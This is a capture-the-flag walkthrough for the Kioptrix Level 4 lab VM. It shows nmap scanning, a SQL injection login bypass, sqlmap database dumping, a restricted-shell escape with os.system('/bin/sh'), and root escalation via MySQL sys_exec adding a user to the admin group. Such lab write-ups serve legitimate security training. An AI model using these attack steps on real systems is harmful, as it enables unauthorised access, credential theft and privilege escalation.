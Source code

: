 # Kioptrix Level 4
Create a new Red Hat Linux VM and select the disk image with the challenge's.
![](https://i.imgur.com/NWG2WuI.png)
Host is `192.168.232.145`
![](https://i.imgur.com/GWo51YR.png)
Victim is `192.168.232.149`
`nmap -sS -sV -p- -oN NampKioptrixLv4.txt 192.168.232.149`
![](https://i.imgur.com/cTYD6St.png)
Samba might be vulnerable? We test it later.
Here we got the Website and SSH, the SSH AC/PW might contain in the website.
Let's go find it.
![](https://i.imgur.com/LNSJKOD.png)
It's a simple login page.
We can try some SQLi, like:
`' or '1'='1`
![](https://i.imgur.com/hkKnzLh.png)
Wrong username.
Let's use Sqlmap to test the form.
![](https://i.imgur.com/oyWWTmb.png)
`sqlmap -r "KioptrixLv4Login.txt" --dbs`
![](https://i.imgur.com/2j2eBM8.png)
![](https://i.imgur.com/FVCcMEP.png)
We only know that database might be MySQL.
However, with `dirb`, we find that something apparently a username -- "John".
![](https://i.imgur.com/j2ydiJG.png)
Let's try this as username with sqlmap again.
Modified the POST text:
`sqlmap -r "KioptrixLv4Login1.txt" --dbms=MySQL`
![](https://i.imgur.com/LToRPGU.png)
`sqlmap -r "KioptrixLv4Login1.txt" --dbms=MySQL -D members --tables`
![](https://i.imgur.com/6t1kag7.png)
`sqlmap -r "KioptrixLv4Login1.txt" --dbms=MySQL -D members --T members --dump`
![](https://i.imgur.com/abpR79D.png)
Okay, we got the AC/PW here.
`Robert`'s password seems a Base64 encoded. But `John`'s is in plain text.
SSH with it.
![](https://i.imgur.com/177agch.png)
Here we are in the target's shell, but this shell is a restricted shell.
![](https://i.imgur.com/S9BJvak.png)
Reference to the article: [Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)
We find this method might work with those restrict policies.
`echo python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()`
![](https://i.imgur.com/URknt9y.png)
Then you might get out the jail shell, and search the `/root`, you will find `congrats.txt`.
![](https://i.imgur.com/IQOuB2s.png)
But we are here to get the root privilege, no matter that flag not set in proper privilege.

Now you go to search the connection infomation in the web dirctory, `/home/www/*`, `/var/www/*`
Then you will find those in `/var/www/`
![](https://i.imgur.com/oIjOtOp.png)
Use it to connect to the MySQL database.
`mysql -h localhost -u root -p`
Then use this root privilege mysql to execute the system command like add john in to admin.
`select sys_exec('usermod -a -G admin john');`
![](https://i.imgur.com/Qz0mTjH.png)
Then `sudo su` to turn yourself in to root with john's password.
![](https://i.imgur.com/Tu6MjlZ.png)
